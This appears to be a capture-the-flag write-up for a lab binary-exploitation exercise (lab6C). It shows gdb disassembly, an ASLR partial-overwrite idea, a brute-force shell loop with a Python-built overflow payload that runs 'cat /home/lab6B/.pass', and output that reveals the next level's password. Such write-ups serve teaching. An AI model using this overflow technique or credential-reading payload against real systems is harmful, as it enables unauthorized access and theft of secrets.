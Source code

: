 Now, we can check the current address of *secret_backdoor()* with `gdb`:

```nasm
gdb-peda$ disas secret_backdoor
Dump of assembler code for function secret_backdoor:
   0xb77c672b <+0>:	push   ebp
   0xb77c672c <+1>:	mov    ebp,esp
   0xb77c672e <+3>:	push   ebx

...[snip]...
```

After a few run, due to ASLR, this address will change:
- `0xb77da72b`
- `0xb778d72b`
- `0xb77ae72b`
- `0xb77d772b`
- `0xb775972b`

However, we can see that the address always ends with **0x72b**. It means that we can try to do a partial overwrite and bruteforce a valid address!

## Solution

r < <(python -c "print(40 * 'A' + '\xfa\n' + 196 * 'B' + '\x90\x90\x90\x90\n' + 'cat /home/lab6B/.pass\n')")

lab6C@warzone:/levels/lab06$ for ((i=0; i < 20; i++))
do
(python -c "print(40 * 'A' + '\xfa\n'  + 196 * 'B' + '\x2b\x07' + '\n' + 'cat /home/lab6B/.pass\n')") | ./lab6C
done

```bash
lab6C@warzone:/levels/lab06$ for ((i=0; i < 20; i++))
> do
> (python -c "print(40 * 'A' + '\xc6\n'  + 196 * 'B' + '\x2b\x07' + '\n' + 'cat /home/lab6B/.pass\n')") | ./lab6C
> done
--------------------------------------------
|   ~Welcome to l33t-tw33ts ~    v.0.13.37 |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Tweet @Unix-Dude
>>: >: Tweet sent!
Segmentation fault (core dumped)

...[snip]...

--------------------------------------------
|   ~Welcome to l33t-tw33ts ~    v.0.13.37 |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Tweet @Unix-Dude
>>: >: Tweet sent!
p4rti4l_0verwr1tes_r_3nuff
Segmentation fault (core dumped)
```

Awesome!
